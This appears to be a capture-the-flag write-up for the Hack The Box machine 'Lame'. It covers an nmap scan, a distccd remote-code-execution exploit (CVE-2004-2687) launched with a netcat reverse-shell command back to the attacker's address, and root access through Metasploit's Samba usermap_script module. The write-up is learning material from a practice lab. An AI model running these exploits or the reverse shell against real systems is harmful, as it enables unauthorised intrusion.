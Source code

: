 ```yaml
---
title: Writeup - HTB Lame
date: 2023-10-29
author: kei5uke
description: Writeup for HTB Lame
tags:
  - linux
  - metasploit
  - writeup
---
```


# Lame

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/lame]
└─# nmap -sC -sV -p- -T4 10.129.79.102 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 01:31 EEST
Nmap scan report for 10.129.79.102
Host is up (0.039s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.22
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-`k  Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m25s, deviation: 2h49m45s, median: 22s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-10-28T18:33:35-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.11 seconds
```

## FTP File Zilla

Possible Access not writeable

## SMB

```bash
┌──(root💀kali)-[~/lame]
└─# smbclient -L 10.129.79.102                                                                                           1 ⨯
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Not use.

## Distccd

[(CVE-2004-2687) DistCC Daemon - Command Execution (Python)](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

Found interestring exploit.

```bash
┌──(root💀kali)-[~/lame]
└─# python3 distccd_rce_CVE-2004-2687.py -t 10.129.79.102 -p 3632 -c "nc 10.10.16.22 1403 -e /bin/sh"
[*] Connected to remote service
[!] Socket Timeout
```

![Screenshot 2023-10-29 at 02.06.44.png](Lame%201eaea493130c47ba805ffed580c9de33/Screenshot_2023-10-29_at_02.06.44.png)

I got shell

# Shell Privilege Escalation

I tried a lot of things but I couldn’t find anything that makes me root with this user.

[Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

I decided to go back to enumeration and found interesting smb vulnerability and tried it with msfconsole in the end.

```bash
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                      wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.20     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.129.79.102
RHOSTS => 10.129.79.102
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.16.22
LHOST => 10.10.16.22
msf6 exploit(multi/samba/usermap_script) > run
```

![Screenshot 2023-10-29 at 03.19.36.png](Lame%201eaea493130c47ba805ffed580c9de33/Screenshot_2023-10-29_at_03.19.36.png)

I got root.